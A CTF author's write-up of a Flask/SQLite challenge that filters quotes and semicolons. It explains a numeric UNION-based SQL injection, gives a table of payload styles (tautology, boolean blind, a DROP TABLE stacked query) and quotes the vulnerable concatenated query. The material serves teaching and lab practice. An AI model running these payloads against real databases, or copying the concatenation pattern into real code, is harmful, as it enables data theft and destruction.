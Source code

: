 # SQLi_Filtered – Personalised Write‑up

**Category:** Web – 150 pts
**Flag:** `flag{sqli_filtered}`

---

## Simple Challenge Flow

1. The application only has a single point of GET /lookup?uid=<value>
2. Using `1` returns `User name: alice`, confirming there is a `users` table
3. By using all types of regex and the basic tests you see that the code blocks the quotes and semicolons, meaning that it must be Numeric SQL, this means the payload must be something like 0 UNION SELECT 1-- without quotes and semicolons
4. using 0 UNION SELECT sql FROM sqlite_master--, I can reveal that there is a table called very_secret
5. From here I can find the flag using 0 UNION SELECT flag FROM very_secret--
6. This reveals the flag of flag{sqli_filtered}


---


## How Difficulty Was Increased and Defence Mechanisms

I increased the difficulty by prohibiting the use of '," and ; through using a numeric solution when the normally, the solutions are string-based. I further used Generic error messages that would force blind experimentation instead of having the given error messages. I also recompiled the regex after each request to make a new compilation that would slightly obfuscates the code path. I implemented Quote and Semicolon to block ' OR 1=1-- and other similar classic solves. 


---

## Indepth Build and Solution Notes


This CTF challenge is a tiny flask web app that usese SQLite. It exposes one endpoint which is the GET /lookup?uid=<value> that looks up a user's name by uid and prints it. 
This task initially creates an sqlite file next to the script as a .db and it makes a flag of "flag{sqli_filtered}". It then creates 2 tables of users as users(uid, name) pre‑seeded with A/B/C and a very_secret(flag) containing the flag. At the lookup endpoint, the code gets a uid from the query string and blocks quotes and semicolons (returns HTTP 400) to stop obvious SQL payloads. The reason why SQL injections can appear for this task is because of the line 
```python
    query = "SELECT name FROM users WHERE uid = " + uid
    query = "SELECT name FROM users WHERE uid = ?", (int(uid),)
```
compared to the much safer version listed below it. This allows for sql injections as this task in particular is an integer-based in-band union based SQL injection, playing off the classic UNION-based sqli with a numeric filter that exludes string literals. This filter increases the difficulty by narrowing the attack surface and forcing knowledge of SQLite's schema and ordering tricks and column cardinality. I also limited the use of error checking in this test where the use of "return "SQL error", 400" as a result of regexing with certain commands that are used to usually test sql injections. 
To demonstrate this, here is a list of the common sql attacks and how they fail against the filter and how it forces certain difficulty. 

| Attack style | With Filter | Without Filter | Example payload | What happens / why|
| - | - | - | - | - |
| **Tautology** | **Yes** | **Yes** | `1 OR 1=1--` | WHERE becomes `uid = 1 OR 1=1` → many rows and app prints first (“A”). |
| **String‑based tautology** | **No** (needs quotes) | **Yes** | `0 OR 'a'='a'--` | Quotes make it easy to force TRUE but blocked in filtered version. |
| **UNION‑based** | **Yes** | **Yes** | `0 UNION SELECT flag FROM very_secret--` | Column count = 1 matches `name` and returns the flag.                                                               |
| **UNION + targeted schema query** | **Harder** (no quotes for predicates) | **Easy** | `0 UNION SELECT sql FROM sqlite_master WHERE name='very_secret'--` | With quotes: directly filter to the target table; without quotes it’s simpler. |
| **Boolean‑based blind** | **Possible** (using functions) | **Easier** (use quoted chars/LIKE)  | With filter: `1 AND substr((SELECT flag FROM very_secret),1,1)=char(102)--`  \| Without filter: `1 AND substr((SELECT flag FROM very_secret),1,1)='f'--` | You infer TRUE/FALSE by response difference (`User name: …` vs `Len=0`).                                         |
| **Error‑based** | **Weak** (generic “SQL error” hides details) | **Still weak** (same masking) | `1'`  (causes syntax error) | App returns just “SQL error”, so you can’t infer from error text either way. |
| **Time‑based blind** | **N/A** | **N/A** | **N/A** | SQLite doesn’t have a sleep functions |
| **Stacked queries**  | **No** | **Yes** | `1; DROP TABLE users--` | `sqlite3.execute()` only allows one statement so stacked won’t run unless the app used `executescript()`. |









/lookup?uid=0 UNION SELECT 1--

Read schema to find hidden tables:
/lookup?uid=0 UNION SELECT sql FROM sqlite_master--

Exfiltrate the flag:
/lookup?uid=0 UNION SELECT flag FROM very_secret--

Why it works: the base query returns one column (name), so a UNION SELECT <one column> fits; keywords (UNION, SELECT) and comments (--) don’t need quotes.


FLAG insert

cur.execute(f"INSERT INTO very_secret VALUES ('{FLAG}')") will break if FLAG contains a ' (single quote). It’s wrapped in try/except, so it silently fails. Use parameters instead.

Regex per request

Compiling the regex on every request is harmless but unnecessary overhead.












## Related & Future Variants
- Blind‑SQLi via time‑based or Boolean‑based techniques when direct feedback is suppressed
- Second‑Order SQLi where inputs are stored in one context and later executed in a different query
- Out‑of‑band SQLi leveraging DNS/HTTP exfiltration to leak data when in‑band channels are filtered

---

### Sources

* **PentesterLab – SQL Injection** https://pentesterlab.com
* **PayloadsAllTheThings – SQLi** https://github.com/swisskyrepo/PayloadsAllTheThings
* **SQLite Docs** https://www.sqlite.org/lang_select.html
